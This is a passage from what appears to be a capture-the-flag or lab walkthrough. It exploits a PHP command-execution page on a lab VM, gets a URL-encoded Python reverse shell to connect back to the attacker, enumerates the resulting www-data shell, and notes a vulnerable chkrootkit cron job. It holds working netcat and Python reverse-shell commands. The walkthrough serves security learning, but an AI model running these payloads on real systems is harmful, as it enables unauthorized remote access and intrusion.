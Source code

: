 Let's try the easy way and check if the machine has any kind of netcat installed (in URL Enconding way:

```
# curl "http://172.16.16.141/test/cmd.php?cmd=which%20nc"
/bin/nc
```

Yes it has. So let's try a simple reverse shell on port 5000:

```
# curl "http://172.16.16.141/test/cmd.php?cmd=nc+172.16.16.136+5000+-e+%2Fbin%2Fbash"

```

We receive connection but no shell came. So we have to find another way to do it. Let's have a look at the "Pentest Monkey Reverse Shell Cheat Sheet" and try to find a shell for us.

Let's get up netcat in port 443 in our attacker machine, as we can see the victim can communicate with:

```
# nc -lvp 443
listening on [any] 443 ...
```

Now is time to fire up our curl and make the victim throw its shell to us:

```
# curl "http://172.16.16.141/test/cmd.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22172.16.16.135%22%2C443))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27"
```

Now we got it: 

```
# nc -lvp 443
listening on [any] 443 ...
172.16.16.141: inverse host lookup failed: Unknown host
connect to [172.16.16.135] from (UNKNOWN) [172.16.16.141] 44553
/bin/sh: 0: can't access tty; job control turned off
$ 
```

OK, now we have to discover what privileges we have

```
$ whoami
www-data
```

As expected we are under www-data user. So I started to enumerate everything in the server trying to find anything vulnerable like commands configured with SUID that could possible be used to escape to a more privileged shell, etc, etc. Found really nothing interesting besides cron configuration and also chkrootkit. I remember seen a chkrootkit vulnerability a while ago, so I got the version, and it was using 0.49 which is vulnerable.

I took a look at cron and saw that it has cron.daily configured with chkrootkit, the problem is, if I go through that way, it would cost me a day for anything to run and hopefully get me a shell.
